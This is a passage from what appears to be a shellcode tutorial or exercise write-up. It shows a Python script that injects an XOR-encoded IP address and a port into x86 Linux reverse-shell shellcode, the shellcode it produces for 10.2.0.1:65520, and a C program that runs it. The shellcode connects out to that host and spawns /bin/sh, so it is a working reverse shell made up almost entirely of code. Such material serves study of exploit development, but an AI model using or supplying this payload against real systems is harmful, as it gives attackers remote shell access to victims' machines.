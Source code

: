 ```python
for i in range(0, 4):
    ip_bytes.append(struct.pack('B', int(ip[i].encode('hex'), 16) ^ xor_byte).encode('hex'))

code = code.replace("\\xbb\\x80\\xff\\xff\\xfe", "\\xbb\\x{b1}\\x{b2}\\x{b3}\\x{b4}".format(
    b1 = ip_bytes[0],
    b2 = ip_bytes[1],
    b3 = ip_bytes[2],
    b4 = ip_bytes[3]
))

# Inject the port number
port = hex(socket.htons(int(sys.argv[2])))
code = code.replace("\\x66\\x68\\x11\\x5c", "\\x66\\x68\\x{b1}\\x{b2}".format(
    b1 = port[4:6],
    b2 = port[2:4]
))

print code
```

Running this script with the arguments `10.2.0.1` and `65520` results in the following shellcode:

```shell_session
$ python create.py 10.2.0.1 65520
\x89\xe5\x31\xc0\x31\xc9\x31\xd2\x50\x50\xb8\x03\x03\x03\x03\xbb\x09\x01\x03\x02\x31\xc3\x53\x66\x68\xff\xf0\x66\x6a\x02\x31\xc0\x31\xdb\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc3\x66\xb8\x6a\x01\x89\xe1\x89\xea\x29\xe2\xcd\x80\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\x49\xcd\x80\x41\xe2\xf6\x31\xc0\x31\xd2\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
```

As the values 0, 1 and 2 all appear in the IP address, `\x03` was used for the XOR byte. This shellcode can then be used in a small C program to test it, like below:

```c
#include <stdio.h>
#include <string.h>

int main(void)
{
    unsigned char code[] = "\x89\xe5\x31\xc0\x31\xc9\x31\xd2\x50\x50\xb8\x03\x03\x03\x03\xbb\x09\x01\x03\x02\x31\xc3\x53\x66\x68\xff\xf0\x66\x6a\x02\x31\xc0\x31\xdb\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc3\x66\xb8\x6a\x01\x89\xe1\x89\xea\x29\xe2\xcd\x80\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\x49\xcd\x80\x41\xe2\xf6\x31\xc0\x31\xd2\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80";

    printf("Shellcode length: %d\n", strlen(code));

    void (*s)() = (void *)code;
    s();

    return 0;
}
```
